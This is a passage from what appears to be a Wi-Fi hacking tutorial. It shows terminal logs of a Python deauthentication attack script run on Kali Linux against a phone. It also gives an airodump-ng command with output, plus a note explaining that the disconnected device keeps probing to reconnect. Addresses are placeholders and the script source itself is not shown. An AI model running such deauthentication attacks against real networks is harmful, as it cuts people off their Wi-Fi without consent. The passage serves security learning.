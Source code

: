     ```

    Python Script logs:

    ```bash
    (.venv) root@kali:~/PycharmProjects/hacking-tutorial# python deauth_attack.py 
    Enter the interface name (e.g., wlan0): wlan0
    Enter the target MAC address (victim): MOBILE_MAC
    Enter the gateway (AP) MAC address: WIFI_MAC
    [+] Initiating Deauthentication attack on MOBILE_MAC via WIFI_MAC using wlan0
    [+] Starting deauthentication attack on MOBILE_MAC via WIFI_MAC using wlan0
    23:31:45  Waiting for beacon frame (BSSID: WIFI_MAC) on channel 36
    23:31:45  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [51|69 ACKs]
    23:31:46  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    23:31:47  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    23:31:47  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    ```

    `airodump-ng` output:

    ```bash
    root@kali:~# airodump-ng --bssid WIFI_MAC --channel 36 wlan0
    CH 36 ][ Elapsed: 1 min ][ 2025-07-25 23:31 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    WIFI_MAC  -19  58      926       98    0  36  780   WPA2 CCMP   PSK  WIFI_NAME       

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

    WIFI_MAC  DEVICE1_MAC  -45    6e- 6e     0      159                                       
    WIFI_MAC  DEVICE2_MAC  -27    6e-24      0      224                                       
    WIFI_MAC  MOBILE_MAC  -25    6e- 1e  1696     1347         WIFI_NAME           
    Quitting...
    ```

- The `Probe` showing the `WIFI_NAME` is the mobile trying to reconnect to the network. It is sending probe requests to the network but it is not able to connect to the network because we have disconnected it using the deauthentication attack.


